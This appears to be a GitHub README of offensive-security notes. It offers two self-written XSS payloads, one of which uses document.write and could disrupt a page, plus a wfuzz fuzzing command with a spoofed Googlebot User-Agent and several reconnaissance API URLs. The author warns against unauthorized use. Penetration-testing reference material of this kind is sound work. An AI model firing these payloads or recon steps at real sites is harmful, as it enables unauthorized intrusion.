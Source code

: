 <br>
<h1 align="center"> Offensive Security MISC Anotations and Payloads</h1> <br>

<br>
<br>


# xss
- Personally created XSS payloads <br>

<br>

## Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>
> so, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any person who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```

<br>

<hr>

<br>

# Tools

# nmap
- Nmap is a network discovery and security auditing.
- It can also be used for web application.

# wFuzz
- wFuzz is a web application fuzzing tool <br>

<br>

##  Ultimate wFuzz command v1 <br>

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

<br>

<hr>

<br>

# APIs
- Apis for any kinds of target reconnaissance.
- Can be also used with cURL for automatic tool making
- Switch the URL with your target's domain or ip.

<br>

## DNS Look up <br>

> https://api.hackertarget.com/dnslookup/?q=URL

<br>

## HTTP Headers <br>

> https://api.hackertarget.com/httpheaders/?q=URL

<br>

## Host Search <br>

> https://api.hackertarget.com/hostsearch/?q=URL

<br>

## Crawlers <br>
- Alien Vault limit parameter can be set to any integer number,
- as well as the page parameter.
- Common Crawl outputs with json format.

> https://otx.alienvault.com/api/v1/indicators/hostname/URL/url_list?limit=50&page=1
> https://index.commoncrawl.org/CC-MAIN-2021-43-index?url=URL&output=json
